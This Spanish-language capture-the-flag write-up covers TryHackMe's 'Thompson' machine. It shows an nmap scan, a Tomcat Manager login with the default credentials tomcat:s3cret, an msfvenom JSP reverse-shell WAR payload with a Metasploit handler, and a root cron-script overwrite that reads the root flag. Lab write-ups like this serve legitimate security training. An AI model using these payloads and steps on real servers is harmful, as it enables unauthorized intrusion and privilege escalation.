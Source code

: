 ```yaml
---
title : "Thompson - Write Up - Español"
date : 2021-07-04T13:39:34+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "Máquina de nivel fácil en TryHackMe."
tags : ["tomcat","misconfigured","metasploit","java","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/bsidesgtthompson)  | Fácil  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconocimiento

Como siempre, ejecutemos `nmap` para ver qué puertos están abiertos.
```bash
╰─ lanfran@parrot ❯ map 10.10.128.244                                                                                              ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 13:43 CEST
Nmap scan report for 10.10.128.244
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.03 seconds
```
Como indican el nombre y la imagen de portada de la sala, la máquina está ejecutando un servidor `Apache Tomcat` en el puerto 8080.

## Acceso inicial - Usuario

Obtenemos la página predeterminada de Tomcat, y también podemos ir a la pestaña `Manager App`.

¿Quizás si probamos con las credenciales predeterminadas para Tomcat?
_tomcat:s3cret_

¡SÍ! ¡Estamos adentro!
![Foothold](foothold.png)

¡Y aquí adentro, podemos cargar un archivo `.war`!

¡Así que ejecutemos `msfconsole` y `msfvenom` para crear un payload!


```bash
#Creando el payload
╰─ lanfran@parrot ❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=5555 -f war > shell.war                                ─╯
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```
```bash
#Corriendo Metasploit para capturar la conexión
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.21:5555
```
Ahora carguemos nuestro archivo `shell.war`.

Y navegue hasta el nombre de archivo "raro". En mi caso fue `http://10.10.128.244:8080/hgkFDt6wiHIUB29WWEON5PA/`

Después de eso, deberíamos tener un nuevo shell en Metasploit.

```bash
[*] Command shell session 1 opened (10.9.6.21:5555 -> 10.10.128.244:34468) at 2021-07-04 13:57:31 +0200

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```
Mejoremos nuestra shell con Python.

`python -c 'import pty;pty.spawn("/bin/bash")'`

¡Genial! Ahora podemos leer la bandera del usuario.

```bash
tomcat@ubuntu:/home/jack$ cat user.txt
3[REDACTADO]f
```

## Root

Hay un trabajo cron (cron job) ejecutándose con los privilegios de root.

Así que vayamos a `/home/jack` y copiemos la flag de root en un archivo en nuestro directorio de inicio.

```bash
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat /root/root.txt > test.txt
```

Después de un minuto, obtenemos la bandera de root en test.txt

```bash
tomcat@ubuntu:/home/jack$ cat test.txt            
d[REDACTADO]a
```

¡Y hemos "rooteado" la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!